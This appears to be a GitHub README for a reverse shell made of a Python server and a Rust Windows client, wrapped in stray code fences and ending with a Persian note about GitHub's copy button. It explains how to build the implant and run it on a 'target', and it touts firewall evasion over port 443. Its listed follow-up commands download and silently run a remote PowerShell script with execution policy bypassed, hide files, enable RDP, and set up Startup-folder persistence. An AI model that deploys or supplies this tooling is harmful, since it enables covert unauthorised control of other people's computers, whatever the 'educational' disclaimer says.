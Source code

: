 ```yaml
---
```bash
npm install

```markdown
# 🐍 Reverse Shell (Python Server & Rust Client)

This project is a simple yet effective reverse shell, consisting of a Python server for managing connections and a Rust-based client for the Windows operating system. This tool is designed for **educational purposes and penetration testing**.

## 📋 Features

- ✅ **Python Server:** Lightweight and runnable on Linux-based operating systems.
- 🔐 **Encrypted Communication:** Utilizes the `pycryptodome` library for data encryption.
- 🖥️ **Rust Client:** Compiles to a small, fast `.exe` executable for Windows.
- 📡 **Session Management:** Capable of handling multiple concurrent connections.
- 🛡️ **Firewall Bypass:** Uses port 443 to reduce the likelihood of traffic being blocked.

---
```


## 🚩 Prerequisites

### For the Server (Ubuntu Server)

- An Ubuntu server or virtual machine with a **static IP address**.
- Python 3 installed.
- `pip` (Python's package installer) installed.

### For Compiling the Client (Windows)

- The **Rust** programming language installed. (You can download it from [here](https://www.rust-lang.org/tools/install))
- **Microsoft Visual Studio Build Tools** with **C++** support installed. (You can download it from [here](https://visualstudio.microsoft.com/visual-cpp-build-tools/))

---

## 🛠 Server Installation & Setup

Follow these steps on your Ubuntu server:

1.  First, update your system and install `pip`:
    ```bash
    sudo apt update
    sudo apt install python3-pip
    ```

2.  Open the desired port (443 in this example) in your firewall:
    ```bash
    sudo ufw allow 443
    ```

3.  Clone the project from GitHub and navigate into its directory.

4.  Install the required Python libraries. (Ensure a `requirements.txt` file exists in the project and includes `pycryptodome`.)
    ```bash
    pip install -r requirements.txt
    ```

5.  Run the server:
    ```bash
    python3 server.py
    ```
    or
    ```bash
    python server.py
    ```

At this point, the server is active and will listen for incoming client connections. You can type `help` at any time in the server terminal to see the list of available commands.

---

## 🔨 Building the Client Executable (Exe)

To build the `.exe` file that will run on the target Windows system, follow these steps:

1.  Ensure you have installed the prerequisites for **Rust** and **Visual Studio Build Tools**.

2.  Navigate to the client directory in the project:
    ```bash
    cd reverse_shell
    ```

3.  Open the `main.rs` file with a text editor.

4.  Find the following line and replace it with your Linux server's IP address and port. (Using port 443 is recommended)
    ```rust
    let server_addr = "YOUR_SERVER_IP:443"; // <-- Replace with your server's IP
    ```

5.  Run the following command to compile the project:
    ```bash
    cargo build --release --target x86_64-pc-windows-msvc
    ```

6.  The executable `.exe` file will be created at the following path:
    ```
    target\x86_64-pc-windows-msvc\release\reverse_shell.exe
    ```

> **⚠️ Important Warning:** Never run the `reverse_shell.exe` file on your own machine! This file is designed to be executed on the target system. For testing, always use a virtual machine.

---

## 📖 How to Use

1.  Run the server on your Ubuntu VM as described in the setup instructions.
2.  Transfer the compiled `reverse_shell.exe` file to the target Windows machine.
3.  Execute the `reverse_shell.exe` file on the target system.
4.  Immediately after execution, a new connection will appear in your server's terminal.

---

## 🎯 Commands

### Server Commands (For Managing Connections)

Enter these commands in the Python server terminal:

- `help`: Displays the list of available commands.
- `sessions`: Shows all active sessions (connections).
- `connect <id>`: Connects to a specific session to send commands. (e.g., `connect 1`)
- `info <id>`: Retrieves basic system information for a specific session.
- `exit`: Shuts down the server completely.

### Example Client-Side Commands (To Run on the Target)

After connecting to a session using the `connect` command, you can send the following commands to perform various actions on the target system:

#### Download and Execute a PowerShell Script
```cmd
curl -o "script.ps1" "http://your-server.com/script.ps1" 
powershell -WindowStyle Hidden -ExecutionPolicy Bypass -File "script.ps1"
```

#### Hide a File Completely
```cmd
attrib +h +s "C:\path\to\your\file.ext"
```
> To unhide files hidden with this method, you must enable "Hidden items" and uncheck "Hide protected operating system files" in File Explorer's View options.

#### Enable Windows Remote Desktop (RDP)
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
sc config TermService start= auto
sc start TermService
netsh advfirewall firewall set rule group="Remote Desktop" new enable=Yes
```

#### Copy File to Startup Folder (for Persistence)
The startup folder path is:
```
C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

#### Run Executable Without a Console Window
```cmd
start /B reverse_shell.exe
```

---

## ⚖️ Disclaimer

This tool is developed solely for **educational** and **security research** purposes. Any misuse, illegal, or unauthorized use of this code is the sole responsibility of the user. The developer assumes no liability for any potential misuse.
```

---

**نکته کلیدی:** مطمئن شوید که فایل را در گیت‌هاب ذخیره کرده و سپس صفحه را رفرش کنید. دکمه کپی فقط در نمای رندر شده‌ی گیت‌هاب نمایش داده می‌شود، نه در ویرایشگر متن شما.
